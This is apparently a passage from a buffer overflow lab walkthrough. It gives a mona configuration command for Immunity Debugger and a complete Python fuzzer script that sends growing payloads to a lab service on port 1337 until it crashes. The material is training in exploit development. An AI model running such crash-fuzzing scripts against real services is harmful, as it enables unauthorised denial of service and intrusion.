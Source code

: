 * We notice that it is running on port 1337
* So, why not connect to it from Kali on port 1337?

<figure><img src="../.gitbook/assets/image (8) (2).png" alt=""><figcaption></figcaption></figure>

### Mona Configuration

Place the following into the debugger window of Immunity:

```
!mona config -set workingfolder c:\mona\%p
```

## Fuzzing

* Create a file on Kali called <mark style="color:yellow;">00fuzzer.py</mark> with the following contents:

<pre><code><strong>#!/usr/bin/env python3
</strong>
import socket, time, sys

ip = "10.10.253.98"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)</code></pre>
